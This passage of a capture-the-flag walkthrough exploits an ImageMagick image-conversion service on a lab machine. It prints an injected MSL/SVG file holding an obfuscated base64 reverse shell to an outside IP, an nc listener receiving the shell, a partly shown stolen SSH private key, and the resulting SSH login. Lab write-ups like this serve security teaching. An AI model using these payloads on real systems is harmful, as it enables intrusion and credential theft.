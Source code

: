     
    
    <image authenticate='ff" `echo "YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDQgMD4mMSAK" | base64 -d | bash`;"'>
      <read filename="pdf:/etc/passwd"/>
      <get width="base-width" height="base-height" />
      <resize geometry="400x400" />
      <write filename="test.png" />
      <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
      <image xlink:href="msl:mog-shell.svg" height="100" width="100"/>
      </svg>
    </image>
    

I’ll upload that to Meta as `mog-shell.svg` (matching the `xlink:href` line in
the file). I can test it to get a shell as www-data, or wait for the cron
which creates a shell as thomas:

    
    
    oxdf@hacky$ nc -lvnp 444
    Listening on 0.0.0.0 444
    Connection received on 10.10.11.140 36076
    bash: cannot set terminal process group (3961): Inappropriate ioctl for device
    bash: no job control in this shell
    thomas@meta:/var/www/dev01.artcorp.htb/convert_images$
    

### SSH

I could upgrade my shell, but there’s also an RSA key pair in
`/home/thomas/.ssh`:

    
    
    thomas@meta:~/.ssh$ cat id_rsa
    cat id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5
    x7up3z5s/H/yujgjgroOOHh9zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvV
    ...[snip]...
    

I’ll just grab the private key and connect over SSH:

    
    
    oxdf@hacky$ ssh -i ~/keys/meta-thomas thomas@10.10.11.140
    Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    thomas@meta:~$ 
    